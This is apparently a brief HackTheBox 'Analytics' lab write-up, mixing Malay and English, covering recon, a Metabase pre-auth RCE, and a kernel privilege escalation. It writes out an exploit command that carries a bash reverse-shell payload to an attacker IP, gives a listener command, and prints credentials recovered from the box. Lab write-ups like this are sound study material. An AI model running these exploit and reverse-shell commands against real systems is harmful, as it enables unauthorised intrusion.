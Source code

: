 ```yaml
---
date:
  created: 2023-12-19
  updated: 2023-12-19
description: HTB-Analytics(easy) Writeup
tags:
  - gobuster
  - cve
  - linpeas
comments: true
---
```


# Analytics

## Reconnaissance
- nmap
- nano /etc/hosts (analytics.htb) (data.analytical.htb)

## Enumeration
open burpsuite atau just direct ke web untuk dapatkan setup-token
takde fuzzing, direct public exploit

## Exploitation
- metabase vulnerable (https://github.com/shamo0/CVE-2023-38646-PoC) https://github.com/securezeron/CVE-2023-38646 https://github.com/m3m0o/metabase-pre-auth-rce-poc	https://medium.com/@starlox.riju123/hackthebox-analytics-metabase-rce-bd3421cba76d 

listening - rlwrap -lnvp 1234
exploit command - `python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.16.14/1234 0>&1"`

- run linpeas

META_PASS=An4lytics_ds20223#
META_USER=metalytics

dapat user.txt

## Privesc
- run linpeas balik sbb dah tukar user. tadi www-data user
- check ubuntu version, kernel version
- search exploit dekat internet (https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)
- send file (tengok hacktools)
- run
dapat root.txt